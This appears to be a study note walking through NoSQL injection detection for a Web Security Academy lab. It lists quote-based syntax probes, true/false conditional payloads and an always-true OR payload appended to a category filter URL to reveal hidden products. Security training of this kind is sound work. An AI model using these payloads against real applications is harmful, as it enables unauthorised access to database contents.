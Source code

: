 <br>

* Submit the following payloads (single quote) to determine if the application uses our input as query syntax:

* If the first payload causes an error, and the second payload doesn't, the application may be vulnerable.

```
this.category == '''
```

```
this.category == '\''
```

<br>

* Conditional Payloads:

* False:

```
' && 0 && 'x
```

* True:

```
' && 1 && 'x
```

<br>

* OR TRUE/FALSE payloads:

```
'||'1'=='1
```

```
'||'1'=='2
```


<br><br>

#### Lab: Detecting NoSQL injection

* Perform a NoSQL injection attack that causes the application to display unreleased products. 

	* https://0a1300c403c5bd3a82fa2e6500c2009d.web-security-academy.net/filter?category=Accessories

* The following payload will cause the application to return everything from the database, as the injected payload is a condition that will always evaluates to TRUE:

```
category=Accessories'||'1'=='1
```

* On contrast, the following payload evaluates to FALSE:

```
category=Accessories'||'1'=='2
```

